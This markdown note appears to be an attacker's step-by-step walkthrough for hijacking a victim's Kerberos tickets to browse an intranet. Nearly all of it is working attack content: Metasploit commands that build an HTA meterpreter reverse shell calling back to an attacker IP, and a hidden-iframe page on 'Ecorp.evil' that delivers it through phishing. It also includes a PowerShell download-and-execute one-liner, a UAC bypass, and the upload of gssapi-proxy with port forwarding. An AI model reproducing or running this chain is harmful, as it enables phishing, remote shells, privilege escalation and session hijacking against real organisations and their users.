 # Hijacking Kerberose Tickets
> Jacking kerberos tickets to remotely access the intranet.
> The note describes a process that is run from Kali

1. Attacker creates a web page seving a malicous HTA file
2. Target browses the attacker-sent web page & executes the served HTA file
3. Meterpreter session is established
4. Malicous Code Injection
	- A: PowerShell script for recon against browser is injected into the target workstation's memory.  *We are looking for **intranet** locations that would include **Kerberos authentication**.*
	- B: gssapu-proxy is dropped and executed.  The attacker can connect to port 8080 & browse the intranet, hijacking the target's active Kerberose tickets.


## 1. Malicous HTA File

1. Craft Malicious HTA File

```bash
service postgressql start
msfconsole

# MSF

msf5 use auxilary/gather/impersonate_ssl
msf5 auxilary(mpersonste_ssl)> set RHOST www.google.com
msf5 auxilary(mpersonste_ssl)> run
```

The output of *run* will include a `[+] www.google.com:443 - pem: /location/to/pem.pem`.

```bash
# MSF
msf5 auxilary(mpersonste_ssl)> use payload/windows/meterpreter/reverse_https
msf5 payload(windows/meterpreter/reverse_https)> set LHOST [evil external IP]
msf5 payload(windows/meterpreter/reverse_https)> set LPORT 443
msf5 payload(windows/meterpreter/reverse_https)> set stagerverifysslcert true
msf5 payload(windows/meterpreter/reverse_https)> set HANDLERSSLCERT /location/to/pem.pem
msf5 payload(windows/meterpreter/reverse_https)> generate -f hta-psh -o /tmp/patch.hta  #See Note Below
msf5 payload(windows/meterpreter/reverse_https)> back
msf5 use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
msf5 exploit(multi/handler) > set LHOST [external OR internal IP depending on the setup]
msf5 exploit(multi/handler) > set LPORT 443
msf5 exploit(multi/handler) > set stagerverifysslcert  true
msf5 exploit(multi/handler) > set HANDLERSSLCERT /location/to/pem.pem
msf5 exploit(multi/handler) > set exitonsession false
msf5 exploit(multi/handler) > exploit -j
```

**generate** Note: This could throw an error depending on the version of MSF you are using.
Older versions of msf use slightly different option flags.  Check the options for your version.

This may work instead: `generate -t hta-psh -f /tmp/patch.hta`

The `-t` was for output *format* but in `msf5>` it is `-f`

The `-f` was for output *filename* but in `msf5>` it is `-o`


## 2. HTA File is Executed
**[+] Simple HTML page** to serve the HTA file just created.  Name it whatever but for here it will be referred to as `index.html`.

*Auto Execute* will only take place in IE and Edge browsers.

```html
<html>
<head>
<body>
<div style="display:none;">
	<iframe id="frmDld" src:"http://Ecorp.evil/patch.hta"></iframe>
</div>
</body>
</head>
</html>
```

1. Serve `index.html` via any means, but the below works just fine.  
```python
python -m SimpleHTTPServer 8080
```
2. Send the victim a link or some phish.
3. Victim goes to `http://Ecorp.evil/index.html` cause they aren't paying attention to the domain name.
4. When `index.html` loads IF browser is IE or Edge it will execute the `patch.hta` file, and if everthing was set up properly, connect back to the `msf` session.  Check `jobs` and `sessions` to see if it worked.
5. [maybe] The victim may need to allow the file to execute.  But why not? They cliked on a **`Ecorp.evil`** link, right?


## 3. Meterpreter Session

Now you should have a meterperter session.  If not, what did you do wrong? Seriously.... I laid everything out for you.

Interact with the session: `sessions -i 1`
Start a Shell: `merterpreeter > shell`


## 4. Malicous Code Injection

### 4.a Get browser history

Github location: [Get-BrowserData.ps1](https://github.com/rvrsh3ll/Misc-Powershell-Scripts/blob/master/Get-BrowserData.ps1)

To enumerate browser history & bookmarks, inject `Get-BrowserData` into the victim's memory.

Execute the following in the `shell` session started in #3 above.

```powershell
C:\Users\FrankCastle\> powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/rvrsh3ll/Misc-Powershell-Scripts/master/Get-BrowserData.ps1'); Get-BrowserData | Format-List"
```
> Check the `Data` feild and look for intranet locations.  They usually require kerberos authentication.

### 4.b Inject gssapi-proxy

Github location: [gssapi-proxy](https://github.com/mikkolehtisalo/gssapi-proxy)

1. Elevate privilages
```bash
msf exploit(handler) > use exploit/windows/local/bypassuac_eventvwr
msf exploit(bypassuac_eventvwr)> set payload windows/mdterpreter/reverse_https
msf exploit(bypassuac_eventvwr)> set LHOST [evil external IP]
msf exploit(bypassuac_eventvwr)> set LPORT 4443 #Use different port than setup for the session.
msf exploit(bypassuac_eventvwr)> set stagerverifysslcert true
msf exploit(bypassuac_eventvwr)> set HANDLERSSLCERT /location/to/pem.pem
msf exploit(bypassuac_eventvwr)> set session 1
msf exploit(bypassuac_eventvwr)> run
```

**NOTE** Use different port than setup for the session.

Now you should be in a `meterpreter` session.  Time to upload **gssapi-proxy**.

```bash
meterpreter> upload /path/to/gssapi-proxy /windows/system/gassapi-proxy.exe
meterpreter> portfwd add -r victim.ip -l 4444 -p 8080
meterpreter> portfwd list
```

Point your attacking browser to the proxy you just setup.

Activate **gssapi-proxy**

```bash
meterpreter> shell

c:\Windows\system32>gssapi-proxy.exe

CRTL+C and drop out of the session [y]???

```

The user's active kerberos tickets is now hijacked and lets the attacker browse to the identified intranet locations.